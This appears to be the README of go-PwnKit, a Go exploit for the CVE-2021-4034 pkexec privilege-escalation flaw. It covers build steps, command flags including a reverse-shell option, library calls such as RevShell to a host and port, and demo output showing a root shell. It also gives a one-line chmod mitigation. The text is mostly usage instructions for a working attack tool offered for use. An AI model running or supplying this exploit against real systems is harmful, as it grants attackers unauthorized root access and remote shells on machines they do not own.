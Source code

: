 # go-PwnKit

A pure-Go implementation of the **CVE-2021-4034 PwnKit** exploit.



## Installation

```bash
git clone git@github.com:OXDBXKXO/go-PwnKit.git
cd go-PwnKit
make
```



As the exploit relies on a malicious shared library, a **PWN.so** file is generated from ***payload.go*** and embed in the resulting `exploit` executable.

The ***Makefile*** uses `sed` to temporarily change the package name of the ***payload.go*** file to `main`, hence making this ***Makefile*** Linux-only.



## Usage

#### As standalone executable

```
$> ./exploit -h
Usage of ./exploit:
  -c string
        Command to execute as root (default "/bin/sh")
  -g    Append id and greetings to your command
  -r string
        Optionally open a reverse-shell instead. Format: host:port
```

The exploit can either be used with a command (`-c`) or as a reverse-shell (`-r`).



```
$> ./exploit -g   
uid=0(root) gid=0(root) groups=0(root),994(input),1000(sudo),1001(oxdbxkxo)
hax0r in the system!
sh-5.1#
```



#### As package

```go
package main

import (
	"github.com/OXDBXKXO/go-PwnKit"
)

func main() {
	gopwnkit.Command("id")
    gopwnkit.RevShell("127.0.0.1:1137")
}

```



## Demonstration

```bash
$> ./exploit
sh-5.1# id
uid=0(root) gid=0(root) groups=0(root)
sh-5.1#
```



## Mitigation

Patch `pkexec` if possible, other disable the ***setuid*** bit on the `pkexec` binary.

```bash
chmod 0755 /usr/bin/pkexec
```



## Credits

This project is inspired by several other PoCs of the **PwnKit** exploit.



Thanks to [An00bRektn](https://github.com/An00bRektn/CVE-2021-4034) for the straight-forward exploit setup.

Thanks to [PaterGottesman](https://github.com/PeterGottesman/pwnkit-exploit) and [berdav](https://github.com/berdav/CVE-2021-4034) for the clarity of the exploit explanation.

Thanks to [dzonerzy](https://github.com/dzonerzy/poc-cve-2021-4034) for the *GIO_USE_VFS* trick.
